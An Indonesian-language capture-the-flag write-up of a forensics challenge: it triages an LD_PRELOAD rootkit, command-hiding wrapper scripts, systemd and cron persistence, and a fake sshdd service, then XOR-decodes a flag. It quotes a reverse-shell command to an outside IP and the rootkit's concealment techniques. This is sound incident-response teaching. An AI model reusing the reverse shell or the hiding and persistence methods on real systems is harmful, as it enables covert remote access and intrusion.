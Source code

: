 ## Whisper From The Basement

**Difficulty:** Hard

**Author:** moonetics

**Connect:** `ssh ctf.noctralupra.space -p (port)` — **User:** `root` — **Pass:** `nclpcomprom1sed`

### Description

Sebuah computer berperilaku aneh dan langsung diisolasi dari jaringan. Kamu diberi akses ke klon terkarantina dari mesin tersebut. Akses keluar (egress) ke internet diblokir, jadi segala upaya “call home” akan gagal.

Tugasmu adalah triage DFIR: cari tahu apa yang mengompromikan, bagaimana ia bertahan/bersembunyi, dan pulihkan 2 pesan yang berusaha disamarkan oleh pelaku.

**Hint:** “Hook yang baik sering bersembunyi di tempat yang selalu dibaca loader dinamis. Satu file di /etc bisa membuat direktori ‘terlihat normal’ padahal tidak.”

### Solution

Dari hint, mereferensikan jalur yang selalu disentuh loader dinamis, yaitu `/etc/ld.so.preload`. Di sana terdapat library custom.

**Filesystem & loader.**

```bash
cat /etc/ld.so.preload
# -> /usr/lib/libloadkit.so

# Hindari efek hook saat forensik
LD_PRELOAD= /bin/ls -al /etc
```

**Command Hijacking**

```bash
head -n 2 /usr/bin/ls /bin/ls /usr/bin/ps /usr/bin/find /usr/bin/strings
#!/bin/bash
/usr/bin/ls.idn "$@" | grep -vE "Nnc1pl04dkit|sshdd|kit-update"
/usr/bin/ps.idn "$@" | grep -vE "sshdd|kit-update"
/usr/bin/find.idn "$@" 2>/dev/null | grep -vE "Nnc1pl04dkit|sshdd|kit-update"
/usr/bin/strings.idn "$@" | grep -vE "NCLPS1"

# Pakai binari .idn langsung untuk analisis asli
/usr/bin/strings.idn -n 4 /root/quarantine/libloadkit.so | grep -i 'NCLP\|NCLPS1\|idn\|loadkit'
```

**Systemd & cron.**

```bash
systemctl list-unit-files --state=enabled | grep -i nnc1pl
LD_PRELOAD= systemctl cat Nnc1pl04dkit-monitor.service
# ExecStart=/usr/local/bin/Nnc1pl04dkit_monitor.sh

cat /usr/local/bin/Nnc1pl04dkit_monitor.sh
# EXPECTED="/usr/lib/libloadkit.so"; echo ke /etc/ld.so.preload setiap jalan

cat /etc/cron.d/kit-update
# * * * * * root /usr/local/bin/Nnc1pl04dkit_monitor.sh
```

**Reverse shell.**

```bash
LD_PRELOAD= systemctl cat sshdd.service
# ExecStart=/usr/local/sbin/sshdd
LD_PRELOAD= journalctl -u sshdd --no-pager | tail -n 40
# bash -i >& /dev/tcp/47.84.89.245/31102 0>&1 (egress diblok)

# Kunci & indikator lain di .rodata
LD_PRELOAD= readelf -p .rodata /root/quarantine/sshdd
# ... "/bin/bash", "n0ctraLUPRa2025", "/dev/tcp/47.84.89.245/31102"
LD_PRELOAD= readelf -p .rodata /root/quarantine/libloadkit.so
# ... "readdir", "Nnc1pl04dkit", "sshdd", "ld.so.preload", "kit-update", "NCLPS1", ".idn"
```

Main compromised-nya adalah **rootkit berbasis LD_PRELOAD** yang meng-hook `readdir` untuk menyembunyikan berkas/direktori, ditambah hijacking command (`ls/ps/find/strings`) agar output difilter dari indikator tertentu. Persistensi ganda ditemukan: **systemd timer** yang menulis balik `/etc/ld.so.preload` setiap 30 detik, serta **cron** per menit yang menjalankan skrip preload recover yang sama. Ditemukan juga service palsu, `sshdd.service`, yang mana adalah reverse shell ke `47.84.89.245:31102`.

Solusinya adalah memutus persistensi, menonaktifkan preload saat akuisisi, lalu memulihkan dua pesan.

**Memutus persistensi & menonaktifkan hook sementara.**

```bash
LD_PRELOAD= systemctl stop Nnc1pl04dkit-monitor.timer sshdd.service
LD_PRELOAD= systemctl disable Nnc1pl04dkit-monitor.timer sshdd.service
LD_PRELOAD= systemctl daemon-reload

# bekukan preload & pindahkan artefak
mkdir -p /root/quarantine
mv /usr/lib/libloadkit.so /root/quarantine/ 2>/dev/null || true
cp /etc/ld.so.preload /root/quarantine/ld.so.preload.bak 2>/dev/null || true
: > /etc/ld.so.preload
```

**Menemukan Pesan #1 (kunci XOR).**

```bash
LD_PRELOAD= readelf -p .rodata /root/quarantine/sshdd
# "/bin/bash", "n0ctraLUPRa2025", "/dev/tcp/47.84.89.245/31102"
```

**Memulihkan Pesan #2 (flag) dari part tersembunyi + ciphertext XOR.**
Part awal:

```bash
/usr/bin/ls.idn -al /var/.Nnc1pl04dkit
cat /var/.Nnc1pl04dkit/part1.txt
# NCLPS1{y1haa_th3_r00k1t_hav3e3e3_aa_l
```

Carve ciphertext dari `.data` `sshdd`, buang padding NUL di depan, lalu XOR dengan kunci. Brute-force seluruh kemungkinan shift. Untuk implementasinya adalah kode berikut ini:

```bash
PART1="/var/.Nnc1pl04dkit/part1.txt"
BIN="/root/quarantine/sshdd"
KEY="n0ctraLUPRa2025"

# uji beberapa offset di dalam .data; 0x3010/0x3020 terbukti berisi payload
for OFF in 0x3000 0x3010 0x3020 0x3030 0x3040; do
  dd if="$BIN" of=/tmp/ct.enc bs=1 skip=$((OFF)) count=$((0x100)) status=none 2>/dev/null || continue
  perl -0777 -ne 'BEGIN{binmode STDIN; binmode STDOUT} s/^\x00+//; print' /tmp/ct.enc > /tmp/ct.trim

  for S in $(seq 0 $(( ${#KEY} - 1 ))); do
    K="$KEY" S="$S" perl -0777 -ne '
      BEGIN{ binmode STDIN; binmode STDOUT; $k=$ENV{K}; $kl=length $k; $off=int($ENV{S}); }
      $buf=$_; $l=length $buf;
      for (my $i=0; $i<$l; $i++){
        substr($buf,$i,1)=chr( ord(substr($buf,$i,1)) ^ ord(substr($k,($i+$off)%$kl,1)) );
      }
      print $buf;
    ' /tmp/ct.trim > /tmp/ct.dec

    FLAG=$( printf '%s%s' "$(tr -d '\n' < "$PART1")" "$(tr -d '\n' < /tmp/ct.dec)" \
      | LC_ALL=C grep -aoE 'NCLPS1\{[ -~]{0,200}\}' | head -n 1 )

    if [ -n "$FLAG" ]; then
      echo "$FLAG"
      break 2
    fi
  done
done
```

Output berhasil menunjukkan HIT pada salah satunya di **offset `0x3010` shift `0`**:

```
[+] HIT offset=0x3010 shift=0 NCLPS1{y1haa_th3_r00k1t_hav3e3e3_aa_lFlag part2: 0tt_p3rs1stenc33_725775ce1c}
```

### Flag

NCLPS1{y1haa_th3_r00k1t_hav3e3e3_aa_l0tt_p3rs1stenc33_725775ce1c}
